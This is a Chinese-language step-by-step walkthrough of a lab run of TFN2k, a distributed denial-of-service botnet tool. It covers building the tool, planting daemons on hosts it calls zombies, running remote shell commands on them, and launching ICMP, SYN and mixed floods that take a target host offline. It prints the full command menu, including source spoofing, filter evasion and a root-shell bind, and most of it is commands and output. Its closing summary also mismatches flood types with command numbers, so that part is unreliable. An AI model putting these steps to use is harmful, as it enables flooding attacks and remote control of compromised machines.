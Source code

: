 

TFN2k 模拟攻击示例
==================

参考[1]
-----------

#1. 编译

>git clone https://github.com/poornigga/tfn2k

>cd tfn2k

>make


#2. 安装

##测试环境：
>主控端tfn：10.4.3.145

>被控端td:

>1. 10.4.192.26

>2. 10.4.3.117

>3. 10.4.3.145  (10.4.3.145既做主控端又做被控端，即主控端自身也是肉鸡)

##测试手段：
>10.4.3.145指挥10.4.192.26,10.4.3.117,10.4.3.145去攻击10.4.192.25

##主控端安装
>将td,tfn两程序FTP到主控端（10.4.3.145）的/root
>`[root@localhost ~]# ls`
>`serverout0.txt  tfn  td`

##建立host_tfn文件，设立肉鸡地址，包括自身
>[root@localhost ~]# cat host_tfn
>10.4.192.26     
>10.4.3.145      自身
>10.4.3.117     

##被控端安装
>ftp td到各被控端


#3. 测试

##各被控端起td
>[mac@nm ~]$ su                 td必须在root下起
>Password:
>[root@nm mac]# ./td
>[root@nm mac]# ps -ef
>UID        PID  PPID  C STIME TTY          TIME CMD
>root     24923 24894  1 05:14 pts/1    00:00:00 su
>root     24924 24923  6 05:14 pts/1    00:00:00 bash
>root     24943     1  0 05:14 pts/1    00:00:00 tfn-daemon
>root     24944 24924  0 05:14 pts/1    00:00:00 ps –ef

##在主控host也要起肉鸡程序td (即主控端自身也是肉鸡)

>telnet 10.4.3.145
>连通性测试
>在所有肉鸡（包括主控端）td都启动后
>在主控端做基本的控制测试
>`[root@localhost ~]# /root/tfn -f host_tfn -c 10 -i "mkdir testaa"`

>Protocol      : random
>Source IP     : random
>Client input  : list
>Command       : execute remote command
>Password verification:  输入00008421 (此为主控端与各肉鸡的握手密码，是编译时生成的)
>Sending out packets: ...
>[root@localhost ~]#

##在各个肉鸡下都会自动建立一个目录testaa,通常建立在td文件存在的目录下
>`[root@localhost ~]# ls`
>`host_tfn    td      tfn`

>这证明主控和肉鸡通信正常

#正式开始攻击

##在主控端执行tfn
`
[root@localhost ~]# /root/tfn
usage: /root/tfn <options>
[-P protocol]   Protocol for server communication. Can be ICMP, UDP or TCP.
Uses a random protocol as default
[-D n]          Send out n bogus requests for each real one to decoy targets
[-S host/ip]    Specify your source IP. Randomly spoofed by default, you need
to use your real IP if you are behind spoof-filtering routers
[-f hostlist]   Filename containing a list of hosts with TFN servers to contact
[-h hostname]   To contact only a single host running a TFN server
[-i target string]      Contains options/targets separated by '@', see below
[-p port]               A TCP destination port can be specified for SYN floods
<-c command ID> 0 - Halt all current floods on server(s) immediately
1 - Change IP antispoof-level (evade rfc2267 filtering)
    usage: -i 0 (fully spoofed) to -i 3 (/24 host bytes spoofed)
2 - Change Packet size, usage: -i <packet size in bytes>
3 - Bind root shell to a port, usage: -i <remote port>
4 - UDP flood, usage: -i victim@victim2@victim3@...
5 - TCP/SYN flood, usage: -i victim@... [-p destination port]
6 - ICMP/PING flood, usage: -i victim@...
7 - ICMP/SMURF flood, usage: -i victim@broadcast@broadcast2@...
8 - MIX flood (UDP/TCP/ICMP interchanged), usage: -i victim@...
9 - TARGA3 flood (IP stack penetration), usage: -i victim@...
10 - Blindly execute remote shell command, usage -i command
`

>-c 10是执行一条指令
>-c 4,5,6,7,8,9 是5种DOS攻击
>-c 0 是关闭攻击

example:
[root@localhost ~]# /root/tfn -f host_tfn -c 6 -i 10.4.192.25 
从主控端指挥host_tfn内定义的肉鸡向10.4.192.25发动icmp ping 攻击
Protocol      : random
Source IP     : random
Client input  : list
Target(s)     : 10.4.192.25
Command       : commence icmp echo flood
Password verification: 输入00008421
Sending out packets: ...


过2分钟左右，ping 10.4.192.25就ping不通了
[root@localhost ~]# ping 10.4.192.25
PING 10.4.192.25 (10.4.192.25) 56(84) bytes of data.

--- 10.4.192.25 ping statistics ---
16 packets transmitted, 0 received, 100% packet loss, time 14998ms

关闭攻击
[root@localhost ~]# /root/tfn -f host_tfn -c 0
Protocol      : random
Source IP     : random
Client input  : list
Command       : stop flooding
Password verification:  00008421
Sending out packets: ...

关闭攻击后，被攻击主机有可能会恢复通信，也有可能仍不能通信（必须重起），即被“攻死了”
[root@localhost ~]# ping 10.4.192.25
PING 10.4.192.25 (10.4.192.25) 56(84) bytes of data.
From 10.4.3.145 icmp_seq=2 Destination Host Unreachable
From 10.4.3.145 icmp_seq=3 Destination Host Unreachable
From 10.4.3.145 icmp_seq=4 Destination Host Unreachable
From 10.4.3.145 icmp_seq=6 Destination Host Unreachable
From 10.4.3.145 icmp_seq=7 Destination Host Unreachable
From 10.4.3.145 icmp_seq=8 Destination Host Unreachable

--- 10.4.192.25 ping statistics ---
10 packets transmitted, 0 received, +6 errors, 100% packet loss, time 8998ms
, pipe 3

[root@localhost ~]# ping 10.4.192.25
PING 10.4.192.25 (10.4.192.25) 56(84) bytes of data.
64 bytes from 10.4.192.25: icmp_seq=14 ttl=126 time=308 ms
64 bytes from 10.4.192.25: icmp_seq=15 ttl=126 time=361 ms
64 bytes from 10.4.192.25: icmp_seq=16 ttl=126 time=169 ms


TFN发动的攻击包括：UDPflood（-c 6)、TCP SYN flood(-c 5) 、ICMPreply flood(-c 7)

SYN/TCP攻击并设攻击端口（假设对方是WWW SERVER）
`# ./tfn　-f　hosts.txt　-c　5　-i　192.168.111.88　-p　80`


ICMP/TCP/UDP轮流攻击：
`#./tfn　-f　hosts.txt　-c　8　-i　192.168.111.88`
会按TCP/UDP/ICMP的轮替方式发攻击包。

tfn 发起攻击，如果目标不可达，比如没路由，PING不通等，他没有任何显示，就是tcpdump下不发包

tfn 只能对IP地址前两个数字至少有一个>100的地址发攻击，即tfn无法攻击10.1.1.1 这是反复实验得来的。
一开始发现在192地址下发起攻击有效，但在10的地址下发起攻击无效，


[1]: http://blog.sina.com.cn/s/blog_6151984a0100exma.html

